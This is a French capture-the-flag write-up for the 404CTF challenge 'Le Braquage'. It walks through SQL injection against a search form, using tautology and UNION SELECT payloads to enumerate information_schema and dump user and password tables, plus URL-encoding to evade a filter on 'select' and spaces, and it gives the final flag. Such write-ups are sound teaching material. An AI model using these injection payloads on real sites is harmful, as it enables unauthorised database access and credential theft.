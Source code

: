 ## Le Braquage

### Description

On se retrouve sur un site nous permettant d'effectuer des recherches dans une base de données. L'objectif est de trouver des morceaux de flag, afin de les concaténer. Un petit test (injecter ```'``` dans l'entrée du formulaire) nous permet de savoir rapidement ce qu'il va falloir faire, des injections SQL.

### Exploit

#### Première page
 
```
id=-1' OR 1=1 -- &pseudo=
```

On récupère 404CTF{0145769456} et 404CTF{21 rue des kiwis}, ainsi que son id valant 7456.

#### Deuxième page

```
pseudo=-1' UNION SELECT table_name, column_name FROM information_schema.columns -- 
```
On découvre la table Users avec les entrées nom et prénom. Ensuite :
```
pseudo=-1' union select nom,prenom from Users where id=7456 -- 
```
On récupère 404CTF{Vereux} et 404CTF{UnGorfou}.

#### Troisième page

Différents filtres sont mis en place : on ne peut pas utiliser ``select`` ni mettre d'espace dans la requête.
En passant ``%20``, soit le code URL d'un espace, en entrée, le filtre n'est pas activé.
On peut donc contourner le filtre en utilisant l'encodage URL.
```
code=%2d%31%27%20%55%4e%49%4f%4e%20%53%45%4c%45%43%54%20%74%61%62%6c%65%5f%6e%61%6d%65%2c%20%63%6f%6c%75%6d%6e%5f%6e%61%6d%65%2c%20%31%20%46%52%4f%4d%20%69%6e%66%6f%72%6d%61%74%69%6f%6e%5f%73%63%68%65%6d%61%2e%63%6f%6c%75%6d%6e%73%20%2d%2d%20

En clair : code=-1' UNION SELECT table_name, column_name, 1 FROM information_schema.columns -- 
```
On trouve les tables Rdv et Password, qu'on lit avec :
```
code=%2d%31%27%20%55%4e%49%4f%4e%20%53%45%4c%45%43%54%20%2a%20%66%72%6f%6d%20%52%64%76%20%2d%2d%20

En clair : code=-1' UNION SELECT * from Rdv -- 
```
On récupère 404CTF{2022-07-14} et 404CTF{01hDuMatin}.

```
code=%2d%31%27%20%55%4e%49%4f%4e%20%53%45%4c%45%43%54%20%6d%64%70%2c%31%2c%31%20%66%72%6f%6d%20%50%61%73%73%77%6f%72%64%20%2d%2d%20

En clair : code=-1' UNION SELECT mdp,1,1 from Password -- 
```
On récupère 404CTF{GorfousAuPouvoir}.

On a donc le flag : 404CTF{VereuxUnGorfou014576945621ruedeskiwis2022-07-1401hDuMatinGorfousAuPouvoir}.
